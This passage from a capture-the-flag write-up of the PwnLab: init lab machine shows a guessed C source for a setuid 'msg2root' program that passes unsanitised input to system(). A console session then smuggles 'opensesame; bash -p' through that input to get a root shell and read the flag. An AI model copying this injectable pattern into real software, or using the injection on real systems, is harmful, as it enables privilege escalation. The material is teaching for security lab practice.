 Hmm... msg2root possibly looks like this (might not compile, don't complain!):  

```c
#include <iostream>  
  
char msg[1024];  //Let's assume no BO takes place, alrighty?  
char command[1024];   
  
int main()  
{  
 printf("Message for root: ");  
 scanf("%s", msg);  
 snprintf(command, sizeof(command), "/bin/echo %s >> /root/messages.txt", msg);  
 system(command);  
}  
```
  
Let's find a way in.  

```console
mike@pwnlab:/home/mike$ ./msg2root  
./msg2root  
Message for root: **opensesame; bash -p** **//-p to preserve current privileges**  
opensesame; bash -p  
opensesame  
bash-4.3# whoami  
whoami  
root  
bash-4.3# cd /root  
cd /root  
bash-4.3# ls -al  
ls -al  
total 20  
drwx------  2 root root 4096 Mar 17  2016 .  
drwxr-xr-x 21 root root 4096 Mar 17  2016 ..  
lrwxrwxrwx  1 root root    9 Mar 17  2016 .bash_history -> /dev/null  
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc  
----------  1 root root 1840 Mar 17  2016 flag.txt  
lrwxrwxrwx  1 root root    9 Mar 17  2016 messages.txt -> /dev/null  
lrwxrwxrwx  1 root root    9 Mar 17  2016 .mysql_history -> /dev/null  
-rw-r--r--  1 root root  140 Nov 19  2007 .profile  
bash-4.3# cat flag.txt   
cat flag.txt  
.-=~=-.                                                                 .-=~=-.  
(__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)  
(_ ___)  _____                             _                            (_ ___)  
(__  _) /  __ \                           | |                           (__  _)  
( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)  
(__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)  
(_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)  
(__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)  
( _ __)                     __/ |                                       ( _ __)  
(__  _)                    |___/                                        (__  _)  
(__  _)                                                                 (__  _)  
(_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)  
( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)  
(__  _) this challenge.                                                 (__  _)  
(_ ___)                                                                 (_ ___)  
( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)  
(__  _) reading it                                                      (__  _)  
(__  _)                                                                 (__  _)  
(__  _)                                             For sniferl4bs.com  (__  _)  
( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)  
(__  _)                                                                 (__  _)  
(_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)  
```